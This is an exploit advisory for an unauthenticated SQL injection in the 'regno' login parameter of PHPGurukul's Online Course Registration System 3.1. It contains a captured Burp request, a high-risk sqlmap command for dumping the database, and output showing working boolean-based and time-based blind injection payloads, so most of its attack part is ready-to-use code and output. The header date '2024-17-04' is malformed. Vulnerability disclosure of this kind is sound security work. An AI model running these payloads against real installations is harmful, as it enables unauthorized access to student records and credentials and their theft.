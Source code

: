 # Online Course Registration System - SQL Injection - 3 (Unauthenticated)
+ **Exploit Title:** Online Course Registration System - SQL Injection - 3 (Unauthenticated)
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/online-course-registration-free-download/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7515
+ **Version:** 3.1
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Course Registration System allows SQL Injection via the 'regno' parameter at "http://localhost/onlinecourse/index.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/onlinecourse/index.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /onlinecourse/ HTTP/1.1
Host: localhost
Content-Length: 31
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/onlinecourse/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=cc12r4c7k38a4endfa1btuk5he
Connection: close

regno=123&password=test&submit=
```

+ Use sqlmap to exploit. In sqlmap, use 'regno' parameter to dump the database.
```
sqlmap -r r.txt -p regno --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: regno (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: regno=123' OR NOT 6587=6587-- Tsmv&password=test&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: regno=123' AND (SELECT 5477 FROM (SELECT(SLEEP(5)))HgAT)-- gyBT&password=test&submit=
---
[19:40:07] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:40:07] [INFO] fetching current database             
current database: 'onlinecourse
```
+ current database: `onlinecourse`

![Ekran görüntüsü 2024-05-16 133541](https://github.com/BurakSevben/CVEs/assets/117217689/aa1d7d61-4584-47fb-97a8-702d6ac69457)
